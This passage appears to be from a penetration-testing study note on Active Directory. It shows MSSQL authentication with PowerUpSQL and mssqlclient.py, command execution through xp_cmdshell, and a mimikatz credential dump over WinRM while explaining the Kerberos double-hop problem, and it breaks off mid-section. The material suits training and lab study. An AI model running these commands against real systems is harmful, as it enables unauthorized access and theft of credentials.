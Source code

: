 With the previous attacks (ACL) and the [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) (check this [cheatsheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)) we can authenticate:
```console
PS C:\zeropio>  Import-Module .\PowerUpSQL.ps1
PS C:\zeropio>  Get-SQLInstanceDomain
PS C:\zeropio>  Get-SQLQuery -Verbose -Instance "<IP>,<PORT>" -username "<DOMAIN LOWERCASE>\<USER>" -password "<PASSWORD>" -query 'Select @@version'
```

Or use the [mssqlclient.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/mssqlclient.py) from Linux:
```console
zero@pio$ mssqlclient.py <DOMAIN>/<USER>@<IP> -windows-auth
```

Once connected we can type `help` to see the aviable commands. For example, we can enabled commands:
```console
SQL > enable_xp_cmdshell
SQL > xp_cmdshell whoami /priv
```

## Kerberos "Double Hop" 

There is a issue known as *Double Hop* that occurs when hops between two or more hosts. Often occurs when using WinRM or Powershell since the default authentication only provides a ticket. This will cause issues when performing lateral movement. When using WinRM to authenticate to two or more connections the user's password is never cached. When we use Kerberos we are not using a password for authentication. When a password is used, the NTLM hash is stored in the session. 

If we authenticate to a remote host via WinRM and use mimikatz as **backupadm** we won't see any credentials in memory for other users.
```console
PS C:\htb> PS C:\Users\ben.INLANEFREIGHT> Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\backupadm
[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit 

mimikatz(commandline) # privilege::debug 
mimikatz(commandline) # sekurlsa::logonpasswords
```

There are process running under **backupadm** (like **wsmprovhost.exe**, which is the process that spawns a Windows Remote Powershell):
```console
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
```

Take the following example. We are hoping from our host to **DEV01** with **evil-winrm**, so our credentials are not stored in memory. We can use tools like PowerView, but Kerberos has no way of telling the DC that our user can access resources. This happen because the Kerberos TGT is not sent to the remote session. hen the user attempts to access subsequent resources in the domain, their TGT will not be present in the request.

If unconstrained delegation is enabled on a server, it is likely we won't face the *Double Hop* problem. We can try to overcome this issue:
